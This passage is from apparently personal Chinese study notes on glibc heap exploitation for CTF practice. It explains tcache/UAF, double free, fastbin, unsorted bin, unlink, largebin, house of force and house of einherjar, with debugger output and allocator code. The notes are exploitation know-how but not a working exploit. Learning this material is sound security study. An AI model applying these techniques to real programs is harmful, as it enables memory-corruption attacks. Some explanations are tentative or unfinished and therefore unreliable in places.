pwndbg> p p
$2 = 0x4052a0
```

这个就是申请堆块返回的数据块开头的指针。



此时已经向内存块写入数据

接着就该释放







发现在free之后我们之前申请的堆块出现了一个指针，名字也变成了free chunk，同时里面的数据也改变了





现在来看看tache






也就是说，一开始会告诉你tcache的准确位置，之后是空闲块的数量，接着是各个空闲链表表头。

在这里指针并没有清零，虽然里面现在存储的是tache的指针，但是可以修改里面的内容。



而这个时候我们如果再次申请同样大小的堆块，那么就会从tache里面找到，0x4052a0=a

这个时候，a和p都指向这块内存

char *a = malloc(0x20);申请完之后：





之前的堆块被分配给了a，然后a和p都指向这块内存，

然后又申请了一次，



还没懂这有什么用，只知道可以修改tcache/fd指针。



也就是修改的是申请堆块的前16字节。

entries 是 tcache 登记本上的"链表头指针

或许就是一开始修改成了目标地址，之后第二次malloc的时候就会得到这个指针，这个指针可能是got表，或者其它的，这个时候我们就可以去修改里面的内容，修改为system函数地址之类的。


### double free

看的这道题居然不是有关uaf的而是doublefree的。那就来看看

我刚才浅浅的看了一眼，就是释放两次内存块，之后就开始循环了，接着修改其fd,之后再次申请，既可以得到目标地址。



这个写的挺好

## GLIBC2.23



### fastbin attack:

来来来，先瞅瞅这都是啥。

首先是chunk结构




然后就是根据fastbin特性，然后就是释放堆块使之进入fastbin之后修改指针，编辑其中的指针指向后门函数什么的

，所以前提条件就是存在uaf等，能够修改指针。



之后再次获取两次相同大小的chunk就可以。

unsoortedbin attack

介绍一下unsoetedbin:

┌──────────────────────────────────────────────────┐
│  Unsorted Bin = 释放后暂时存放的"中转站"          │
│                                                  │
│  特点:                                           │
│  1. 所有 size > 0x80 的 chunk 释放后先进这里      │
│  2. 下次 malloc 时会遍历，按大小分到 small/large  │
│  3. 双向链表 (有 fd 和 bk)                        │
│  4. FIFO 顺序                                    │
│  5. 只有一个链表，不按大小分                       │
└──────────────────────────────────────────────────┘

与fastbin对比：



### unsortedbin




也就是释放一个大小满足unsortedbin的堆块，之后利用相关的漏洞之后就可以修改指针，然后就可以取出来接着就能够去获取后门函数，或者是泄露fd指针，因为指向的是main_area和libc有关，这样就可以泄露libc。

fastbin和unsortedbin释放后区别;

```
使用中:                           free 后:
┌──────────────────┐              ┌──────────────────┐
│  prev_size       │              │  prev_size       │
│  size = 0x41     │              │  size = 0x41     │
│  data0: AAAA     │              │  fd = next_chunk │  ← 只覆盖前 8 字节！
│  data1: BBBB     │              │  data1: BBBB     │  ← 不变！
│  data2: CCCC     │              │  data2: CCCC     │  ← 不变！
└──────────────────┘              └──────────────────┘

Fastbin 是单链表，只需要 fd (8字节)
→ 只覆盖数据区前 8 字节
→ data1 之后不变

使用中:                           free 后:
┌──────────────────┐              ┌──────────────────┐
│  prev_size       │              │  prev_size       │
│  size = 0x111    │              │  size = 0x111    │
│  data0: AAAA     │              │  fd = arena+0x68 │  ← 覆盖前 8 字节
│  data1: BBBB     │              │  bk = arena+0x68 │  ← 覆盖后 8 字节
│  data2: CCCC     │              │  data2: CCCC     │  ← 不变！
└──────────────────┘              └──────────────────┘

Unsorted Bin 是双向链表，需要 fd + bk (16字节)
→ 覆盖数据区前 16 字节
→ data2 之后不变
```



恢复之后



就是尾部删除，头部插入




#### Unlink

```
已知: *(&arr[0]) = P    (arr[0] 处存着 P 的地址)

我们要让:
*(FD + 0x18) == P    → FD + 0x18 = &arr[0]    → FD = &arr[0] - 0x18
*(BK + 0x10) == P    → BK + 0x10 = &arr[0]    → BK = &arr[0] - 0x10

设:
FD = &arr[0] - 0x18
BK = &arr[0] - 0x10

验证:
*(FD + 0x18) = *(&arr[0] - 0x18 + 0x18) = *(&arr[0]) = P ✅
*(BK + 0x10) = *(&arr[0] - 0x10 + 0x10) = *(&arr[0]) = P ✅

检查通过！
```

检查通过之后，执行写入。

```
FD = &arr[0] - 0x18
BK = &arr[0] - 0x10

写入 1: FD->bk = BK
即: *(FD + 0x18) = BK
即: *(&arr[0]) = &arr[0] - 0x10
即: arr[0] = &arr[0] - 0x10    ← ⭐ arr[0] 变了！

写入 2: BK->fd = FD
即: *(BK + 0x10) = FD
即: *(&arr[0]) = &arr[0] - 0x18
即: arr[0] = &arr[0] - 0x18    ← ⭐ 又写了一次！
```

所以使得arr[0]存储的值发生了变化

largebin attack 

与普通释放的的chunk的区别，就是还多加了两个指针，虽然现在还不知道能干啥。

首先就是大小不同，大小是大于0x400。




### largebin attack


[[原创\]Largebin attack总结-二进制漏洞-看雪安全社区｜专业技术交流与安全研究论坛](https://bbs.kanxue.com/thread-262424-1.htm)

好好看（简略看过，还需细看）

#### 第二次：

largebin 插入过程




取出过程：



这个看懂了，就是修改其largebin中的堆块的bk_nextsize（因为取出的时候是按照bk_nextsize来取得）,指向那个我们需要的地址，因为那个堆还未释放，所以我们可以修改其相应的值，绕过相应的检查，但是（什么是和smallbin一样unlink机制是啥，现在不太清楚）



查看largebin运行原理：


申请三个堆块，


释放此时第一个堆块进入unsortedbin

加上隔离块之后：


就算一开始被释放也是会先进入unsortedbin.


接下来会进行整理，就会进入largebin


又申请一个


这都是啥啊，看不懂。

直接deepseek再次


我去，这个看着正常多了


依旧仍然释放四个堆块


还是依旧进入unsortedbin


因为申请的是0x20大小的，所以第一个0x400大小的就会被分割，分了0x20之后就又会被放在unsoretdbin，之后那些大的就会被放进largebin


确实也是双向链表结构啊，

接下来取了一个大小是0x3f0也就是0x400大小的，这里是直接将0x604420给取走了

，同时这里unsortedbin里面这时还是会进行整理，就是会被放入smallbin


接下来又申请一个0x400就是0x410,正好是850又会被取走


接下来请求的是0x400但是此时链表中就只是剩下了0x420大小的，会被分割


大小是0x31

之后应该还是会被分到smallbin，感觉smallbin就只是存放那些先在unsortedbin中之后被切割的。


### house of  force

###  

通过堆溢出 / UAF 篡改 top chunk 的 `size` 字段为极大值，欺骗分配器认为堆顶有近乎无限的空闲空间；先申请一块计算好大小的内存，把 top 指针精准移动到**目标地址往前 0x10** 的位置，下一次申请内存时，malloc 就会从目标地址处分配并返回，最终实现让 malloc 返回任意指定的可写内存地址。

```c
      victim = av->top;//获取当前top chunk的地址
      size = chunksize (victim);//计算top chunk的大小

      if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
      //MINSIZE就是堆块的最小size，32位程序为0x10，64位程序为0x20
      //如果top chunk的大小大于nb(程序执行malloc需要分配的内存大小)
      //加上MINSIZE的大小，就从top chunk中来切一块内存
      //之所以要加上MINSIZE是要保证切割后剩余的内存要是一个完整的堆块
        {
          remainder_size = size - nb;//remainder_size为切割后的剩余大小
          remainder = chunk_at_offset (victim, nb);//remainder为切割前top chunk+nb的值，也就是切割后top chunk的地址
          av->top = remainder;//更新top chunk
          //下面两个set_head给切割出去的堆块以及切割后的top chunk设置新的size
          set_head (victim, nb | PREV_INUSE |
                    (av != &main_arena ? NON_MAIN_ARENA : 0));
          set_head (remainder, remainder_size | PREV_INUSE);

          check_malloced_chunk (av, victim, nb);//调试用的，这里没用
          void *p = chunk2mem (victim);//返回用户指针
          alloc_perturb (p, bytes);
          return p;
        }

```

remainder_size = size - nb

remainder = chunk_at_offset (victim, nb)


此时在已经知道nb的情况下，再次根据相关机制那么就可以得到相关的remainder地址


```
request_size=target_addr-0x20-victim
```

也就是说只需要request_size=targeet_addr-0x20-top_chunk

同时还需要满足条件，通过size检查，修改top_chunk的size位为-1,转化成无符号数就会变成极大的数值


### house of einherjar

利用 off-by-one（1 字节溢出），把后面 chunk 的 PREV_INUSE 置 0，并且伪造 prev_size。free 的时候，glibc 会错误向前合并，跳过中间正在使用的 chunk，把很远的一个空闲 chunk 和当前 chunk 合并在一起，最终造出 chunk overlap（堆重叠）。


```shell
1. 填满 B 的数据区，溢出写 C 的 `prev_size`，改成 `0x200`（A.size+B.size = 0x100+0x100）
2. 溢出再写 1 字节，把 C.size 的最低位从 1 → 0，C.size 变成 `0x100`
> 
> 现在 glibc 看到 C：PREV_INUSE=0，认为**前面有一个空闲 chunk**，空闲 chunk 大小是 prev_size=0x200
3. `free(C)`
   - glibc：前一个 chunk 空闲，向前合并！
   - 计算前 chunk 地址：`C_addr - prev_size = 0x602200 - 0x200 = 0x602000` → 正好是 Chunk A！
   - unlink Chunk A，合并 A + C，中间的 B 被包进大空闲块里面。
4. 结果：
> 
> Chunk B 的指针仍然可用读写，但 B 所在内存已经属于空闲 unsorted bin 块。**堆重叠达成！**
```

### house of lore(需补充)


### house of storm

关注两个地方：unsorted bin和large bin

豆包一开始讲的啥啊

[House Of Storm-先知社区](https://xz.aliyun.com/news/12119)

第二次：

MINSIZE:

